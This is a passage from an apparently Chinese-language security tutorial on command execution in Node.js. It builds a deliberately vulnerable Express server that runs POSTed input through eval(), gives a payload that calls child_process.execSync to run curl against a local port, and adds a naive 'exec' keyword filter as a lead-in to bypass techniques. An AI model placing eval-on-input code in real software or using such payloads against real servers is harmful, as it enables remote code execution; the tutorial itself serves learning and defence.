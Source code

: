 

## 2. nodejs中的命令执行

为了演示代码执行，我写一个最简化的服务端，代码如下

```
const express = require('express')
const bodyParser = require('body-parser')
const app = express()

app.use(bodyParser.urlencoded(`{` extended: true `}`))
app.post('/', function (req, res) `{`
    code = req.body.code;
    console.log(code);
    res.send(eval(code));
`}`)

app.listen(3000)
```

原理很简单，就是接受`post`方式传过来的code参数，然后返回`eval(code)`的结果。

在nodejs中，同样是使用`eval()`函数来执行代码，针对上文提到rce函数，首先就可以得到如下利用代码执行来rce的代码。

> 以下的命令执行都用curl本地端口的方式来执行

```
eval('require("child_process").execSync("curl 127.0.0.1:1234")')
```

这是最简单的代码执行情况，当然一般情况下，开发者在用eval而且层层调用有可能接受用户输入的点，并不会简单的让用户输入直接进入，而是会做一些过滤。譬如，如果过滤了exec关键字，该如何绕过?

> 当然实际不会这么简单，本文只是谈谈思路，具体可以根据实际过滤的关键字变通

下面是微改后的服务端代码，加了个正则检测`exec`关键字

```
const express = require('express')
const bodyParser = require('body-parser')
const app = express()

function validcode(input) `{`
  var re = new RegExp("exec");
  return re.test(input);
`}`

app.use(bodyParser.urlencoded(`{` extended: true `}`))
app.post('/', function (req, res) `{`
  code = req.body.code;
  console.log(code);
  if (validcode(code)) `{`
    res.send("forbidden!")
  `}` else `{`
    res.send(eval(code));
  `}`
`}`)

app.listen(3000)
```
